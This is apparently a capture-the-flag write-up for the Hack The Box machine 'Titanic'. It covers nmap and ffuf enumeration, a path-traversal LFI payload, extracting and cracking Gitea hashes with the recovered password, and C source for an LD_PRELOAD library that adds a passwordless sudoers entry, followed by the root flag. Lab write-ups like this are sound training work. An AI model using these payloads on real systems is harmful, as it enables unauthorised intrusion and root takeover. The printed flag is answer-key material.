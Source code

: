 CTF Writeup - Titanic (Hack The Box Seasonal)

💪 Machine Name: Titanic
![image (1)](https://github.com/user-attachments/assets/dd4bd9c2-1695-4c22-a8d4-ce05e22767e1)

Platform: Hack The BoxIP Address: 10.10.11.55Difficulty: Easy/Medium  (Seasonal)

🛍️ Overview

Titanic is a Seasonal Hack The Box machine with a simple LFI foothold, Gitea user extraction and hash cracking, and a subtle privilege escalation via LD_PRELOAD on a vulnerable ImageMagick identify script. This box heavily tests your patience and understanding of ImageMagick RCE vectors.

🔍 Enumeration

🔎 Nmap

nmap -p- 10.10.11.55 --min-rate 10000
nmap -p 22,80 10.10.11.55 -sCV -oN nmapscan

Results:

Ports: 22/tcp (OpenSSH 8.9), 80/tcp (Apache 2.4.52)

Webserver: http://titanic.htb/

🌐 Web Enumeration

Main page has a "booking form" that submits to /download?ticket=XYZ.json.

Simple LFI works:

GET /download?ticket=../../../../etc/passwd

→ Reveals /etc/passwd confirming LFI.

📚 Subdomain Fuzzing

ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://titanic.htb -H "Host: FUZZ.titanic.htb"

Finds:

dev.titanic.htb

📢 Gitea Source Leak

Git repo on http://dev.titanic.htb revealed:

git clone https://gitea.titanic.htb/developer/flask-app.git

Also from /etc/hosts:

10.10.11.55 titanic.htb dev.titanic.htb gitea.titanic.htb

💳 Gitea DB Dump and Hash Extraction

Using LFI, dumped:

GET /download?ticket=../../../home/developer/gitea/data/gitea/gitea.db

Cracked hashes:

wget https://gist.githubusercontent.com/h4rithd/.../gitea2hashcat.py
python3 gitea2hashcat.py gitea.db > hashes.txt

hashcat -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt

Result:

developer / 25282528

🚚 Developer Shell

ssh developer@titanic.htb

User developer has no sudo.

SUID/Capabilities not very useful.

But found interesting script:

cat /opt/scripts/identify_images.sh

cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log

We have write access to /opt/app/static/assets/images

/usr/bin/magick identify runs as root (via cron/systemd)

🔧 Privilege Escalation

❌ ImageMagick RCE attempts

Tried:

SVG with ephemeral:

XMP Comment trick

ICC Profile injection

All failed → ImageMagick likely patched or restricted.

💪 Final working method: LD_PRELOAD abuse

Compiled malicious .so:

// a.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'developer ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers");
}

gcc -fPIC -shared -o /opt/app/static/assets/images/libxcb.so.1 a.c -nostartfiles

Trigger:

When identify_images.sh runs, libxcb.so.1 is picked up by /usr/bin/magick identify → privilege escalation.

Now:

sudo cat /root/root.txt
5a9613d27f17e6a182101e7589b535c3

🧪 Lessons Learned

LFI enumeration → real-world example.

Gitea DB hash cracking → how to format & crack.

ImageMagick identify abuse → creative RCE through LD_PRELOAD.

Dealing with modern ImageMagick restrictions → SVG, ICC, XMP may be patched.

Writeup by inksecGitHub: https://github.com/inkedqt

